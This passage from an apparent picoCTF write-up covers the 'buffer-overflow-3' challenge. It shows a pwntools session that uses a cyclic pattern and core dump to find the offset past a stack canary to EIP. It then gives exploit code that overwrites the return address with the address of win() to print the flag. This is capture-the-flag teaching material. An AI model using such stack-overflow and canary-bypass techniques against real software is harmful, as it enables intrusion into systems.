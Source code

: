     logger.success(f'"{canary.decode()}"')
    return canary
{% endcodeblock %}

The final thing we need to figure out is the offset between the canary to `$eip`, the pointer register, which we will repopulate with the address of `win()`. We can do this by appending a cyclic pattern to the end of our current payload (64 + 4 canary bytes) and reading the Corefile's crash location, which will be the `$eip`:

(Note: My canary is "abcd" because I put that in my `canary.txt`. It will be different on the remote!)

<figure class="highlight plaintext">
    <table>
        <tr>
            <td class="code">
                <pre style="white-space:pre-wrap"><span class="meta prompt_">$ </span>python3 -q
<span class="meta prompt_">>>></span> from pwn import *
<span class="meta prompt_">>>></span> p = process('./vuln')
[<span style="color:#9755B3">x</span>] Starting local process &apos;/home/kali/ctfs/pico22/buffer-overflow-3/vuln&apos;
[<span style="color:#47D4B9"><b>+</b></span>] Starting local process &apos;/home/kali/ctfs/pico22/buffer-overflow-3/vuln&apos;: pid 1493
<span class="meta prompt_">>>></span> payload = cyclic(64) + b&apos;abcd&apos; + cyclic(128)
<span class="meta prompt_">>>></span> p.sendline(b&apos;196&apos;)
<span class="meta prompt_">>>></span> p.sendline(payload)
<span class="meta prompt_">>>></span> p.wait()
[<span style="color:#277FFF"><b>*</b></span>] Process &apos;/home/kali/ctfs/pico22/buffer-overflow-3/vuln&apos; stopped with exit code -11 (SIGSEGV) (pid 1493)
<span class="meta prompt_">>>></span> core = Corefile(&apos;./core&apos;)
[<span style="color:#9755B3">x</span>] Parsing corefile...
[<span style="color:#277FFF"><b>*</b></span>] &apos;/home/kali/ctfs/pico22/buffer-overflow-3/core&apos;
    Arch:      i386-32-little
    EIP:       0x61616165
    ESP:       0xffa06160
    Exe:       &apos;/home/kali/ctfs/pico22/buffer-overflow-3/vuln&apos; (0x8048000)
    Fault:     0x61616165
[<span style="color:#47D4B9"><b>+</b></span>] Parsing corefile...: Done
<span class="meta prompt_">>>></span> cyclic_find(0x61616165)
16
</pre>
            </td>
        </tr>
    </table>
</figure>

The offset is 16, so we'll have to append that amount of bytes to the payload followed by the address of `win()`. I'll combine all sections of our payload together with `flat()`, and then hopefully read the flag from the output:

{% codeblock lang:py first_line:32 %}
canary = get_canary()
p = new_process()
payload = flat([{offset: canary}, {16: elf.symbols.win}])
p.sendlineafter(b"> ", str(len(payload)).encode())
p.sendlineafter(b"> ", payload)
log.success(p.recvall().decode("ISO-8859-1")) # recvallS() didn't work :(
{% endcodeblock %}
